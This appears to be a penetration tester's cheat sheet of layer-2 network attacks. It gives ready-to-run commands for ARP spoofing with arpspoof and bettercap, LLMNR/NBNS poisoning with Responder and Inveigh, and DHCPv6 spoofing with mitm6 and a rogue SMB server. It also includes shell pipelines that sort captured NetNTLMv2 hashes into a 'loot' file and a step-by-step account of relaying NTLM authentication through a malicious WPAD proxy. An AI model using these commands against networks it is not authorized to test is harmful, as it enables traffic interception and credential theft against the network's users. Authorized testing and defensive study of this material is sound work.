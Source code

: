 # OSI L2 Attacks




## Sniff Traffic



### tcpdump

While connected via SSH:

```
$ tcpdump -i eth0 -w dump.pcap -s0 'not tcp port 22' &
```



### Wireshark

* [https://research.801labs.org/cracking-an-ntlmv2-hash/](https://research.801labs.org/cracking-an-ntlmv2-hash/)


#### Filters

Protocols to consider:

```
ospf || ssdp || arp || llmnr || nbns || mdns || icmpv6 || dhcpv6
```

Arpspoof:

```
(http || ftp || smb || smb2 || ldap) && ip.src == VICTIM_10.0.0.5
```




## ARP Spoofing

* [https://xakep.ru/2020/06/17/windows-mitm/](https://xakep.ru/2020/06/17/windows-mitm/)

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```



### arpspoof [dsniff]

* [https://github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof -c both -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```



### bettercap

* [https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [https://www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)




## LLMNR/NBNS Poisoning



### Responder

* [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
* [https://github.com/lgandx/Responder](https://github.com/lgandx/Responder)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://markclayton.github.io/where-are-my-hashes-responder-observations.html](https://markclayton.github.io/where-are-my-hashes-responder-observations.html)

Install:

```
$ git clone https://github.com/lgandx/Responder ~/tools/Responder && cd ~/tools/Responder
```

Run:

```
$ sudo python Responder.py -I eth0 -Av
$ sudo python Responder.py -I eth0 -wfrd -P -v
```

Parse, sort and save:

```
 # Users
$ head -n1 logs/*.txt | grep -a . | grep -a -v -e 'logs/' -e '\$' -e anonymous | sort -u -t: -k1,1 > net-ntlmv2.responder
$ sort -u -t: -k1,1 net-ntlmv2.responder ~/ws/loot/net-ntlmv2.txt > t
$ mv t ~/ws/loot/net-ntlmv2.txt && rm net-ntlmv2.responder
 # Machines
$ head -n1 logs/*.txt | grep -a '\$' | sort -u -t: -k1,1
```



### Inveigh

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

```
PS > Invoke-Inveigh [-IP '10.10.13.37'] -ConsoleOutput Y -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y
```



### InveighZero

* [https://github.com/Kevin-Robertson/InveighZero](https://github.com/Kevin-Robertson/InveighZero)
* [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
PS > .\InveighZero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]
```




## DHCPv6 Spoofing



### mitm6

* [https://github.com/fox-it/mitm6](https://github.com/fox-it/mitm6)
* [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [https://intrinium.com/mitm6-pen-testing/](https://intrinium.com/mitm6-pen-testing/)

Install:

```
$ git clone https://github.com/fox-it/mitm6 ~/tools/mitm6 && cd ~/tools/mitm6
$ python3 setup.py install
Or
$ pipx install -f "git+https://github.com/fox-it/mitm6.git"
```

Run:

```
 # Just capture the hashes
$ sudo smbserver.py -smb2support share `pwd` | tee -a ~/ws/log/mitm6-smbserver.out
 # Perform the MitM attack
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```

Parse, sort and save:

```
 # Users:
$ cat ~/ws/log/mitm6-smbserver.out | grep 'authenticated successfully' -A1 | grep aaaaaaaaaaaaaaaa | cut -c 5- | grep -v '\$' > net-ntlmv2.mitm6
$ sort -u -t: -k1,1 net-ntlmv2.mitm6 ~/ws/loot/net-ntlmv2.txt > t
$ mv t ~/ws/loot/net-ntlmv2.txt && rm net-ntlmv2.mitm6
 # Machines
$ cat ~/ws/log/mitm6-smbserver.out | grep 'authenticated successfully' -A1 | grep aaaaaaaaaaaaaaaa | grep '\$' | cut -c 5- | sort -u -t: -k1,1
```


#### Attack vectors

Grab hashes with `smbserver.py` (passive):

1. `mitm6.py` poisons IPv6 DNS entries for all hosts in the `/24` network.
2. Victims start to use attacker's machine as the primary DNS server.
3. `mitm6.py` on the attacker's machine acts like a rogue DNS server and responds with the attacker's IP for all incoming queries.
4. `smbserver.py` collects hashes during SMB requests from victims.

Relay authentication with ntlmrelayx.py (active):

1. `mitm6.py` poisons IPv6 DNS entries for all hosts in the `/24` network.
2. Victims start to use attacker's machine as the primary DNS server.
3. `mitm6.py` on the attacker's machine acts like a rogue DNS server, `ntlmrelayx.py` serves a malicious WPAD file with an inexistent hostname (which will be resolved to the attacker's IP anyway) and acts like a rogue proxy server and `mitm6.py` responds with the attacker's IP for all the incoming DNS queries.
4. Victims grab the WPAD file and ask the rogue IPv6 DNS server (attacker's machine) to resolve its location - resolved to attacker's machine.
5. Victims go to the rogue proxy server and there `ntlmrelayx.py` responses with `HTTP 407 Proxy Authentication`.
